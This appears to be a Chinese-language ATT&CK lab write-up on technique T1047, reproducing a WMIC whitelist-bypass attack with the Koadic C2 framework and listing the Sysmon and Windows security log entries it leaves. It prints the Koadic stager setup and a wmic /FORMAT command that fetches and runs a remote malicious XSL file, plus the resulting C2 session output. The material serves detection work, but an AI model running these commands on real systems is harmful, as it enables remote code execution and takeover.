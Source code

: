 # T1047-win-基于白名单WMIC执行payload

## 来自ATT&CK的描述

WMI（Windows Management Instrumentation）是Windows管理功能，它为本地和远程访问windows系统组件提供了统一的环境。它依赖WMI服务来进行本地和远程访问，以及SMB（服务器消息块）和RPCS（远程过程调用服务）来进行远程访问。RPCS通过端口135运行。

攻击者可能会使用WMI与本地和远程系统交互，也可能使用WMI来执行许多策略功能，例如为发现收集信息和远程执行文件来横向移动。

## 测试案例

WMIC扩展WMI（Windows Management Instrumentation，Windows管理工具），提供了从命令行接口和批命令脚本执行系统管理的支持。在WMIC出现之前，如果要管理WMI系统，必须使用一些专门的WMI应用，例如SMS，或者使用WMI的脚本编程API，或者使用象CIM Studio之类的工具。如果不熟悉C++之类的编程语言或VBScript之类的脚本语言，或者不掌握WMI名称空间的基本知识，要用WMI管理系统是很困难的。WMIC改变了这种情况。

说明：Wmic.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Wmic调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\wbem\wmic.exe
C:\WINDOWS\SysWOW64\wbem\wmic.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\wbem\WMIC.exe
C:\Windows\SysWOW64\wbem\WMIC.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### Koadic

通过Koadic发起Wmic.exe攻击

koadic是一个命令控制（C2）工具，类似Metasploit和Powershell Empire。使用koadic我们生成恶意XSL文件。koadic安装完成后，您可以运行./koadic 文件以启动 koadic，然后通过运行以下命令开始加载stager/js/wmic 程序，并将 SRVHOST 设置为程序回连IP。

```bash
git clone https://github.com/zerosum0x0/koadic.git  #安装命令
cd koadic
pip3 install -r requirements.txt
```

```bash
#加载载荷
./koadic
(koadic: sta/js/mshta)# use stager/js/wmic
(koadic: sta/js/wmic)# set SRVHOST 192.168.126.146
[+] SRVHOST => 192.168.126.146
(koadic: sta/js/wmic)# run
[+] Spawned a stager at http://192.168.126.146:9996/6G69i.xsl
[>] wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

#### 靶机执行payload

执行 WMIC 以下命令，从远程服务器下载和运行恶意XSL文件：

```cmd
wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

靶机测试结果

```dos
C:\Users\12306Br0>wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"12306BR0-PCroot\cimv2roo
t\cliIMPERSONATEPKTPRIVACYms_804ENABLEOFFN/AOFFOFFSTDOUTSTDOUTN/AON\Device\Hardd
iskVolume17601Multiprocessor FreeMicrosoft Windows 7 旗舰版 93686Win32_Operating
SystemWin32_ComputerSystemService Pack 112306BR0-PC480TRUETRUETRUE2FALSEFALSE256
29608362009844309911620200305144428.000000+48020200305151330.500000+480202004171
72815.995000+4800804Microsoft Corporation-18589934464zh-CNMicrosoft Windows 7 旗
舰版 |C:\Windows|\Device\Harddisk0\Partition2422164-bit205225618TRUE112306Br0004
26-292-0000007-85792102343416OK272\Device\HarddiskVolume2C:\Windows\system32C:44
4004820966326.1.7601C:\Windows
```

#### 反弹shell

一旦恶意的XSL文件在目标计算机上执行，你将有一个僵尸连接，就像Metasploit回连的情况一样。

```bash
[+] Zombie 0: Staging new connection (192.168.126.149) on Stager 0
[+] Zombie 0: 12306Br0-PC\12306Br0 @ 12306BR0-PC -- Windows 7 Ultimate
[!] Zombie 0: Timed out.
[+] Zombie 0: Re-connected.
(koadic: sta/js/wmic)# zombies 0

        ID:                     0
        Status:                 Alive
        First Seen:             2020-04-17 17:28:31
        Last Seen:              2020-04-17 17:29:04
        Listener:               0

        IP:                     192.168.126.149
        User:                   12306Br0-PC\12306Br0
        Hostname:               12306BR0-PC
        Primary DC:             Unknown
        OS:                     Windows 7 Ultimate
        OSBuild:                7601
        OSArch:                 64
        Elevated:               No

        User Agent:             Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0)
        Session Key:            02149f1202e3437ab7932672c0c9e6b5

        JOB  NAME                            STATUS    ERRNO
        ---- ---------                       -------   -------
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\wbem\WMIC.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: WMI Commandline Utility
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: wmic.exe
CommandLine: wmic  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x888
新进程名: 'C:\Windows\System32\wbem\WMIC.exe'
```

## 检测规则/思路

无具体检测规则。

## 相关TIP
[[T1047-win-通过WMIC创建远程进程]]

## 参考推荐

MITRE-ATT&CK-T1047:<https://attack.mitre.org/techniques/T1047/>

windows下基于白名单获取shell的方法整理（上）:<http://www.safe6.cn/article/155>
